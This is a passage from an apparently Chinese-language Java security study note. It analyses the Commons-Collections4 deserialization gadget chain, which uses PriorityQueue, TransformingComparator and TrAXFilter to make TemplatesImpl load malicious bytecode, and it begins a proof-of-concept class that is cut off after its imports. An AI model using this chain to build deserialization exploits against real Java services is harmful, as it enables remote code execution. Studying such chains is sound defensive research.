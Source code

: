 <img src="./Java安全学习-Commons-Collections4567/7.png" alt="">

> 而在`compare`方法中调用了`comparator`进行比较，以使用`TransformingComparator`触发后续的逻辑

<img src="./Java安全学习-Commons-Collections4567/8.png" alt="">

# Commons-Collections4 分析
## POC-1
> 该利用链沿用了`CommmonsCollections3`链利用`TrAXFilter`类的构造函数去触发`TemplatesImpl#newTransformer`加载恶意字节码的方法，沿用了`CommonsCollections2`链通过`PriorityQueue`触发`TransformingComparator.compare()`进而调用传入的`transformer`对象的`transform`方法

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 10:55 上午
 */
public class CommmonsCollections4PriorityQueue {

```